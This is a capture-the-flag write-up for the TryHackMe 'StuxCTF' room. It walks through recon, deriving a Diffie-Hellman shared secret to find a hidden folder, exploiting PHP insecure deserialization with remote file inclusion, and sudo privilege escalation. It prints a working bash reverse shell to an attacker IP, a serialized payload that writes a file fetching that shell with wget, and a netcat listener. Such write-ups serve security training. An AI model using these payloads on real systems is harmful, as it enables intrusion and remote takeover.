



# StuxCTF - Writeup

**Date**: 19/01/2025

**Difficulty**: Medium

**CTF**: [https://tryhackme.com/r/room/stuxctf](https://tryhackme.com/r/room/stuxctf)

Crypto, serealization, priv scalation and more ...!

---

# Discovery

First of all, let’s test the communication with the target machine:

<figure><figcaption></figcaption></figure>

The value of the TTL (63) indicates that the machine may be Linux.

<figure><figcaption></figcaption></figure>

The scan revealed that ports 22 (SSH) and 80 (HTTP) are open. Let’s do an intensive scan on these ports to guess which services are running there:

<figure><figcaption></figcaption></figure>

The intensive scan shows no additional information, so let’s continue with the discovery phase.

We saw that the port 80 is open, where usually the service http is running. Let’s run whatweb tool to try to obtain info of the webpage:

<figure><figcaption></figcaption></figure>

It seems that the target is running Apache 2.4.18 and the OS is Ubuntu Linux.

Since we don’t have more info, let’s look at the page using the web browser

<figure><figcaption></figcaption></figure>

We just found a blank page… Let’s take a look to the source code:

<figure><figcaption></figcaption></figure>

There is a comment with interesting info there.

As I don’t really know what to do with that values, let’s continue with the enumeration of the webpage.

The target http server has the robots.txt file, and here is its content:

<figure><figcaption></figcaption></figure>

There is cool info here too. First of all, there is a comment “Diffie-Hellman”, and the other interesting thing is that the robots.txt is disallowing the /StuxCTF/ directory. Let’s check first if this directory exists:

<figure><figcaption></figcaption></figure>

Mmm… It doesn’t exists. After searching the term “Diffie-Hellman” to see what it means, I found [this article in Wikipedia](https://en.wikipedia.org/wiki/Diffie–Hellman_key_exchange).

> **Diffie–Hellman** (**DH**) **key exchange**[[nb 1]](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange#cite_note-1) is a mathematical [method](https://en.wikipedia.org/wiki/Key-agreement_protocol) of securely generating a symmetric [cryptographic key](https://en.wikipedia.org/wiki/Cryptographic_key) over a public channel and was one of the first [public-key protocols](https://en.wikipedia.org/wiki/Public-key_cryptography) as conceived by [Ralph Merkle](https://en.wikipedia.org/wiki/Ralph_Merkle) and named after [Whitfield Diffie](https://en.wikipedia.org/wiki/Whitfield_Diffie) and [Martin Hellman](https://en.wikipedia.org/wiki/Martin_Hellman).
> 

<figure><figcaption></figcaption></figure>

So, the values we saw in the source code of the main page before, seems to be the public parameters and the secret keys of this cryptographic algorithm.

The presence of a, b and c parameters indicate that there are 3 parts in this communication. (Alice, Bob & Carol).

<figure><figcaption></figcaption></figure>

Knowing that, let’s try to calculate the common secret.

To do so, I will follow the following steps:

1. Carol has already calculated gc, so she sends it to alice.
2. Alice will calculate `gca = gc^a mod p` and send it to bob.
3. Bob will calculate `gcab = gca^b mod p` which will be the common secret.
    
    <figure><figcaption></figcaption></figure>
    

I tried using the value of the secret as the name of the secret folder, but the page said that it doesn’t exists.

The Tryhackme machine description ask us for the 128 first digits of the common secret, so I’ll try to use it as the name of the secret folder:

<figure><figcaption></figcaption></figure>

And it displays a new page. It shows no much info, let’s look at the source code:

<figure><figcaption></figcaption></figure>

Aha! We got a hint there! It looks like we can use the parameter “file” in the URL. Let’s try to use “index.php” as the file value to check if there is LFI:

<figure><figcaption></figcaption></figure>

Yeah, it is including a local file. I tried with a bunch of other files but i get rather no response or an error telling me that the file doesn’t exist. Let’s take a look atthe string that appears when we include the file index.php.

Using the Cyberchef tool and after some tries, I found that the message is encoded in base 64, then reversed and finally hex encoded. Doing the reverse process, we got the content of index.php in clear text:

<figure><figcaption></figcaption></figure>

index.php source code

```php
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />

```

There are several interesting things in this code. First one is:

```php
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
```

This part of the code is declaring a class named `file` which contains 2 parameters ($file and $data). The destruct function of this class seems to put the value of “$data” into the file “$file”. If we manage to modify the values of this parameters, we may use it to create some files in the target server that we can use to obtain a reverse shell for example.

```php
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
```

This part of the code is checking if the file requested exists. It is also ensuring that the only valid file that can be included is “index.php”, that explains why we didn’t got any other file before. It also shows how the transformation from the php raw to hex.

```php
unserialize(file_get_contents($file_name));<br />
```

And finally, this line. This seems to unserialize the content of a file. This file happens to be the $file_name, which is the value of the parameter “file” we can insert via URL.

There is a vulnerability related to PHP unserialization ([PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md#object-injection))


So, if we manage to craft a payload that this line can deserialize, maybe we can exploit this vuln.

First of all, let’s see if we can request a remote file using the ?file= URL method. To do it, I’ll open a http server on my local machine:

<figure><figcaption></figcaption></figure>

After requesting the `http://MyIP/check.php`, my server gets a request, so it will be possible to request remote files.

Knowing that, I’ll prepare the code of a PHP reverse shell and share it on my http server:

minirevshell.txt

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.151.70/1234 0>&1'");
?>
```

and then, I’ll prepare a file that will store the payload for the PHP Unserialize exploit

code.txt

```php
O:4:"file":2:{s:4:"file";s:8:"code.php";s:4:"data";s:60:"<?php system('wget http://10.9.151.70/minirevshell.php'); ?>";}
```

Now, I’ll request the code.txt file via URL on the target machine: `http://TargetIP/SecretFolder/?file=http://MyIP/code.txt`

This will create a new file called code.php in the target machine, and its content will be a PHP code that will request the file “minirevshell.php” shared in my local http server.

Then I’ll open that code.php, so the request will take place:

`http://TargetIP/SecretFolder/code.php` 


After doing that, I can see that the file minirevshell.php has been requested from my http server, so I’ll open netcat to receive the revshell with the command `nc -lvnp 1234`

And open in the web-browser the file minirevshell.php

`http://TargetIP/SecretFolder/minirevshell.php` 


And just like that, we got the reverse shell. I’ve tried to obtain the reverse shell using other methods (like uploading the revshell code directly in the deserialize payload, but I got no success due to the double quotes, I also played with b64 encoding and some other things but nothing worked to me)

Now that we are inside the target machine, let’s find the user flag!

<figure><figcaption></figcaption></figure>

Now let’s escalate privileges to read the root flag!

<figure><figcaption></figcaption></figure>

As the user grecia had sudo permissions on everything without a password… It was very easy to acquire a root console and read the root flag.

<figure><figcaption></figcaption></figure>

Completed!